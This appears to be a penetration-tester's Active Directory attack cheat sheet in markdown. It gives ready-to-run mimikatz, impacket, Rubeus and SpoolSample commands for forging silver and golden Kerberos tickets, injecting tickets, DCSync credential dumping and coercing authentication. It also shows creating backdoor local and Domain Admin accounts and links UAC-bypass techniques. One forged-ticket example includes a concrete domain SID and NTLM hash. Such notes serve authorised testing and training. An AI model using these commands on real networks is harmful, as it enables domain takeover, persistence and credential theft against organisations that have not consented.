 We can create the forged service ticket with the _kerberos::golden_ module.

- Domain SID (**/sid:**)
- Domain name (**/domain:**),
- Target where the SPN runs (**/target:**).
- We also need to include the SPN protocol (**/service:**)
- NTLM hash of the SPN (**/rc4:**)
- **/ptt** option, which allows us to inject the forged ticket into the memory of the machine we execute the command on
- We must enter an existing domain user for **/user:**. This user will be set in the forged ticket. However, we could also use any other domain user since we can set the permissions and groups ourselves.

```powershell
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```


### Golden Ticket

```
ticketer.py -aesKey <aeskey> -domain-sid <domain_sid> -domain <domain> <anyuser>

mimikatz "kerberos::golden /user:<admin_user> /domain:<domain> /sid:<domain-sid>/aes256:<krbtgt_aes256> /ptt"
```

### Create User & Add to Group

```
net user backdor Password!123 /add
net localgroup "Administrators" backdoor /add
```

```
net user Mishky Password00 /add /domain
net group "Domain Admins" Mishky /add /domain
```

### UAC Bypass
https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692
https://lolbas-project.github.io/lolbas/Binaries/Wsreset/
https://g3tsyst3m.github.io/privilege%20escalation/Creative-UAC-Bypass-Methods-for-the-Modern-Era/

## Delegation

```
impacket-findDelegation domain/user:password
```

### Unconstrained Delegation
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation
Force Connection with Coerce -> Extract tickets (Inject to PTT):
```
.\SpoolSample.exe dc01 ws01

mimikatz privilege::debug sekurlsa::tickets /export

kerberos::ptt <ticket.kirbi>
lsadump::dcsync /domain:<fqdn> /user:<target_user>

Rubeus.exe ptt /ticket:<base64.kirbi>
```
